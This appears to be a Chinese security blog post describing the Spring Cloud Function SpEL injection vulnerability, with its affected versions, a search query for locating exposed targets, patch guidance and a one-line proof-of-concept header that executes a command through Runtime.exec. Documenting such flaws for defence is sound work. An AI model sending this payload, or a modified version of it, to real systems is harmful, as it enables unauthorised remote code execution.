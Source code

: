 ```yaml
---
title: Spring_Cloud_Function_SPEL远程代码执行
comments: true
tags:
  - Spring_Cloud_Function_SPEL
  - RCE
categories: cve
keywords: Spring_Cloud_Function_SPEL
top_img: 'https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/Spring-1.jpg'
cover: 'https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/Spring-1.jpg'
abbrlink: aa56ae7d
date: 2022-03-26 23:33:12
---
```


# Spring Cloud Function SPEL 远程命令执行漏洞

## 遵纪守法

任何个人和组织使用网络应当遵守宪法法律，遵守公共秩序，尊重社会公德，不得危害网络安全，不得利用网络从事危害国家安全、荣誉和利益

## 漏洞描述

Spring Cloud Function 是基于Spring Boot 的函数计算框架，通过对传输细节和基础架构进行抽象，为开发人员保留熟悉的开发工具和开发流程，使开发人员专注在实现业务逻辑上，从而提升开发效率。

访问Spring Cloud Function的 HTTP请求头中存在 spring.cloud.function.routing-expression参数，其 SpEL表达式可进行注入攻击，并通过 StandardEvaluationContext解析执行。最终，攻击者可通过该漏洞进行远程命令执行。

## 风险等级

高

## 影响版本

```
3.0.0.RELEASE <= Spring Cloud Function <= 3.2.2  
```

注：部分版本进行特定配置的动态路才会受该漏洞影响！

## 资产确定

```
app="vmware-SpringBoot-framework“
```

## 漏洞复现

**POC**

https://github.com/hktalent/spring-spel-0day-poc

```
spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("calc")
```

![](https://cdn-zhiji-icu.oss-cn-hangzhou.aliyuncs.com/2021/Spring-1.jpg)

## 修复建议

目前Spring Cloud官方已经推出补丁修复漏洞，受影响用户可以通过官方补丁进行修复。

官方链接：

https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f
